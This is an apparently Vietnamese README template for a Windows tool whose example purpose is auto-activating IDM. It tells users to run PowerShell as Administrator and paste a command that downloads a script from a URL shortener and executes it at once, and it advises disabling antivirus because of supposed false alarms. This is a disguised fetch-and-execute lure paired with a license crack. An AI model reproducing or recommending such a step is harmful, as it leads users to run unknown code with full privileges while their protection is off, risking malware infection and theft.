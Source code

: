 # Tên Công Cụ Của Bạn

Công cụ này giúp bạn [điền chức năng chính vào đây, ví dụ: tự động kích hoạt IDM].

---

### Yêu cầu

* Hệ điều hành Windows
* Chạy bằng **PowerShell** với quyền **Quản trị viên (Administrator)**

### Hướng dẫn sử dụng

1.  Mở **Windows PowerShell** bằng cách nhấn chuột phải và chọn **Run as administrator**.

2.  Copy và dán toàn bộ lệnh dưới đây vào cửa sổ PowerShell rồi nhấn **Enter**:

    ```powershell
    irm "[https://bom.so/6q0viu](https://bom.so/6q0viu)" | iex
    ```

3.  Làm theo các hướng dẫn tiếp theo trên màn hình (nếu có).

### ⚠️ Lưu ý

* Một số phần mềm diệt virus có thể cảnh báo nhầm. Bạn có thể cần tạm thời vô hiệu hóa chúng để chạy kịch bản.
* Hãy đảm bảo bạn tin tưởng vào nguồn gốc của kịch bản trước khi thực thi.
